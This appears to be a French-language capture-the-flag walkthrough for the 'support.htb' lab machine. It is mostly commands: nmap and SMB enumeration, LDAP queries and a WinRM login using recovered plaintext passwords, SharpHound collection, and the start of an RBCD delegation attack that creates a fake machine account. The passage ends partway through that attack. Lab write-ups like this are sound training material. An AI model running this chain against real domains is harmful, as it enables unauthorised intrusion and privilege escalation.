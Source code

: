 ```bash
# 1. Scan réseau
nmap -sC -sV -Pn 10.129.178.26

# 2. Énumération SMB
smbclient -L \\\\10.129.178.26\\
smbclient \\\\10.129.178.26\\support-tools
# → Télécharger UserInfo.exe.zip

# 3. Déchiffrement du mot de passe LDAP (après reverse engineering)
python3 decrypt.py
# → Mot de passe : nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz

# 4. Requête LDAP pour énumérer les utilisateurs
ldapsearch -h support.htb -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "*"
# → Trouve le mot de passe de 'support' dans l'attribut 'info'

# 5. Connexion WinRM avec l'utilisateur support
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
```

### 🔐 Phase 2 : Énumération AD (PowerShell sur la cible)

```powershell
# 1. Vérifier le domaine et les groupes
Get-ADDomain
whoami /groups
# → Membre de 'Shared Support Accounts'

# 2. Vérifier le quota de création de machines
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
# → Quota = 10 (on peut créer des machines)
```

### 🕸️ Phase 3 : Collecte BloodHound (PowerShell)

```powershell
# 1. Se placer dans un dossier avec droits d'écriture
cd C:\Windows\Temp

# 2. Upload et exécution de SharpHound
upload SharpHound.exe
.\SharpHound.exe

# 3. Télécharger les résultats
download *.zip
```

### ⚙️ Phase 4 : RBCD Attack (PowerShell)

```powershell
# 1. Upload et import de PowerView
upload PowerView.ps1
. ./PowerView.ps1

# 2. Vérifier les délégations actuelles
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity

# 3. Créer une fausse machine avec Powermad
upload Powermad.ps1
. ./Powermad.ps1
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)

# 4. Vérifier la création
```